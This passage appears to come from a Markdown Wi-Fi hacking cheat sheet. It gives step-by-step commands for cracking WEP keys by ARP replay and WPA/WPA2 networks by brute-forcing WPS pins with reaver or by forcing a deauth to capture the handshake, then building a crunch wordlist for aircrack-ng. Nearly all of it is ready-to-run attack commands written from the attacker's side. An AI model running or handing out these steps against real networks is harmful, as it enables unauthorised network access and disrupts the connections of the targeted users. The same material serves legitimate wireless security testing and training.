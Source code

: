 Start capturing.
```
airodump-ng --bssid [NetworkMAC] --channel [CH] --write [filename] wlan0
```
Fake auth attack. To associate with the router so that router communicate with hacker.
```
aireplay-ng --fakeauth 0 -a [NetworkMAC] -h [HackerMAC] wlan0
```
ARP request replay. Wait for an ARP packet. Capture it and replay it. This causes the AP to produce another packet with a new IV. Keep doing this untill we have enough IVs to crack the key.
```
aireplay-ng --arpreplay -b [NetworkMAC] -h [HackerMAC] wlan0
```
airodump-ng capturing may go on. Crack with following command.
```
aircrack-ng filename.cap
```
### WPA/WPA2 cracking <a name="wepwpawpa2-cracking"></a>
#### WPS feature exploiting
##### Requirements
* WPS enabled
* Router is configured not to use PBC (Push Button Authentication)
##### Features
* 8 digit pin cracking
* Need relatively short time to try all pins
* WPS pin can be used to compute the actual password
##### Cracking steps
Step 1: To scal WPS routers run the following command.
```
wash -i wlan0
```
Step 2: Fake authentication attack. Delay will be 30 seconds. Keep on.
```
aireplay-ng --fakeauth [delay] -a [NetworkMAC] -h [HackerMAC] wlan0
```
Step 3: Crack WPS using reaver.
```
reaver --bssid [NetworkMAC] --channel [CH] --interface wlan0 -v --no-associate
```
Where
* --no-associate: associate is the process of fake authentication which is done by aireplay-ng, more robust.
#### Crack using WPA handshake packets
Step 1: Capture packets.
```
airodump-ng --bssid [NetworkMAC] --channel [CH] --write [filename] wlan0
```
Step 2: To capture handshake packets. Deauth attack. So that when reconnect, handshake packets will be generated.
```
aireplay-ng --deauth 4 -a [NetworkMAC] -c [TargetMAC] wlan0
```
Step 3: Generate wordlist.
```
crunch [min] [max] [characters] -t [pattern] -o [wordlistfilename]
```
Example: `crunch 6 8 123abc -t a@@@@b -o test.txt`
Step 4: Crack with the wordlist.
```
aircrack-ng filename.cap -w [wordlistfilename]
```
